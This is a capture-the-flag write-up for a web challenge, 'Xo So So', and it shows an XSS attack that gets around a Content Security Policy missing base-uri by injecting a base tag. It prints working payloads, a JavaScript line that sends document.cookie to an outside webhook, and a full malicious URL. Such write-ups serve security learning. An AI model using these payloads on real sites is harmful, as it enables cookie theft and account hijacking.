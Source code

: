 # Web - Xo So So

## Challenge description:

![Challenge](https://user-images.githubusercontent.com/70543460/204134551-e2767563-e04c-4af5-8311-52203013d185.png)

## Quick Navigation:

- **[(1) Testing the web application](https://github.com/Cyb3rDoctor/CyberWarriorsCTF2022/blob/main/XoSoSo.md#1-testing-the-web-application)**
- **[(2) HTML Injection](https://github.com/Cyb3rDoctor/CyberWarriorsCTF2022/blob/main/XoSoSo.md#2-html-injection)**
- **[(3) XSS - CSP Detection](https://github.com/Cyb3rDoctor/CyberWarriorsCTF2022/blob/main/XoSoSo.md#3-xss---csp-detection)**
- **[(4) XSS - Bypassing CSP and completing the challenge](https://github.com/Cyb3rDoctor/CyberWarriorsCTF2022/blob/main/XoSoSo.md#4-xss---bypassing-csp-and-completing-the-challenge)**

## Solution:

### (1) Testing the web application:

First, I started with testing the functionality of the web application:

The first part of the web application was "Space Gallery", and that's where you can view some planets images:

![image](https://user-images.githubusercontent.com/70543460/204109759-e4a3cbeb-b59e-4796-8922-399aaf3f63ad.jpg)
![image](https://user-images.githubusercontent.com/70543460/204110563-7fd54167-6679-4c31-bcd2-1cba6a34cb57.png)
![image](https://user-images.githubusercontent.com/70543460/204110536-7db4ea3f-1bc2-420b-a40f-649f429e7544.png)

<br/>

The second part of the web application was "Report To Admin" panel, and that's where you can enter a url to report to the admin:

![image](https://user-images.githubusercontent.com/70543460/204109804-a3cf414d-eacd-43ed-adf5-a2383c7c20e6.jpg)
![image](https://user-images.githubusercontent.com/70543460/204110109-0ed3d985-f120-444a-b673-cc283006375b.png)

I entered the URL of a webhook to test the functionality of "Report To Admin" panel:

![image](https://user-images.githubusercontent.com/70543460/204110656-2b6f739b-6b1e-4e85-9fe9-f8fac91ed95b.jpg)

And I got the following request:

![image](https://user-images.githubusercontent.com/70543460/204110920-1b17fa05-ab4e-453f-b317-4f538f24be0e.jpg)

<br/>

### (2) HTML Injection:

![image](https://user-images.githubusercontent.com/70543460/204302943-93bc6b60-293c-478b-acff-67050ba0949a.png)

![image](https://user-images.githubusercontent.com/70543460/204303167-5477f02f-09d9-406c-b6ab-679fac22c8db.png)

According the above behavior, I started injecting HTML codes into the webpage:

```html
'><h1>a</h1><img
```

![image](https://user-images.githubusercontent.com/70543460/204311745-f7953be5-dea3-404a-9911-3748e755d593.png)

![image](https://user-images.githubusercontent.com/70543460/204312749-70648c6c-c21e-4646-b984-9d36375b5b86.png)

<br/>

### (3) XSS - CSP Detection:

As I was able to inject HTML codes, I tried triggering XSS but I couldn't:

![image](https://user-images.githubusercontent.com/70543460/204336153-f79f7978-16b8-4af3-82c7-27a586aa8d91.jpg)
![image](https://user-images.githubusercontent.com/70543460/204336298-4adfa6fd-ee82-4741-8645-7130dda07a5c.jpg)

One of the ways to protect from cross-site scripting (XSS) is the Content Protection Policy (CSP):
![image](https://user-images.githubusercontent.com/70543460/204336960-ddf58243-2446-455c-978a-80be222d0b62.png)

Content Security Policy is implemented via response headers or meta elements of the HTML page, and the CSP in this challenge is implemented via the meta tag:
![image](https://user-images.githubusercontent.com/70543460/209553562-74c2ee5c-a5a0-4c31-a06d-ae5390ae9b7c.png)

<br/>

### (4) XSS - Bypassing CSP and completing the challenge:

After detecting the CSP I used this CSP Evaluator (ttps://csp-evaluator.withgoogle.com/), and it showed a high severity finding because the **base-uri** directive is missing:

![image](https://user-images.githubusercontent.com/70543460/209554855-5f7e01f0-4ab1-42c0-b86f-c20ac6091311.png)

![image](https://user-images.githubusercontent.com/70543460/209555061-35620601-6734-4ac6-915a-3d64ff45968a.png)

![image](https://user-images.githubusercontent.com/70543460/209554941-4c1ab910-23e9-41e8-a8ba-e19666139496.png)

According to the result of the CSP Evaluator and after reading more about the **base-uri** CSP directive and what I can do if that directive is missing, I put my webhook link in the href attribute in the base tag, and that because I wanted so see what does the server requests/tries to load:

```html
'><base href="https://eogzeqepdhvfwr5.m.pipedream.net"><img
```

![image](https://user-images.githubusercontent.com/70543460/209556337-cd831d4b-a056-40dc-8ba4-104c626f70c6.png)

![image](https://user-images.githubusercontent.com/70543460/209556393-01e91b14-9e17-474b-85c1-57fd2553d49f.png)

And I got the following request:

![image](https://user-images.githubusercontent.com/70543460/209556486-e6aa5edf-77d7-4455-94a7-453f8dda3e3a.png)

According to that, I tried abusing the base tag to make it load that script (/assets/js/bootstrap.js) from my machine to achieve XSS.

I started with creating a javascript file with the same path and name (bootstrap.js) in my machine:

```javascript
document.location='https://eogzeqepdhvfwr5.m.pipedream.net/id?c='+encodeURIComponent(btoa(document.cookie));
```

![image](https://user-images.githubusercontent.com/70543460/209557054-209aeb8c-1a43-41e2-ad72-7b72bc7f2c37.png)

After that, I started a python http server and used ngrok to make it publicly accessible:

![image](https://user-images.githubusercontent.com/70543460/209557317-f892e350-6f9f-4d67-8ade-03e794d46c02.jpg)
 
![image](https://user-images.githubusercontent.com/70543460/209557404-889145b4-1fed-4def-ae81-0c71a991efc6.png)

![image](https://user-images.githubusercontent.com/70543460/209557516-bf08f2ad-8bea-4941-959f-ad5bbbdb178c.png)

After that, I reported the following URL which contains the injected base tag with my web server link:
```
http://3.90.185.122:8080/index.php?src='><base href="https://3036-188-247-77-80.ngrok.io/"><img
```

![image](https://user-images.githubusercontent.com/70543460/209557830-5524c66e-2b06-4e51-857e-3d64ef298a41.jpg)

Finally, I checked my webhook logs and got the cookie that contains the flag 🥳

![image](https://user-images.githubusercontent.com/70543460/209557931-070038f2-f8b1-47b1-8dc9-17ca6b51f0ec.jpg)

![image](https://user-images.githubusercontent.com/70543460/209557988-769bf153-e949-40cd-8971-d020b7339a49.jpg)

<br/>

----------

### Good moment:

We submitted the flag of this challenge in the last minute of the competition, thuse we got the second place with the same points as the first place:

![lastMinute](https://user-images.githubusercontent.com/70543460/209558194-a17c7f7c-6a61-4ae2-a6eb-410826cc21da.jpg)

![Scoreboard](https://user-images.githubusercontent.com/70543460/204103410-f32d443e-2c96-4219-aa67-c30a3d7b729c.png)
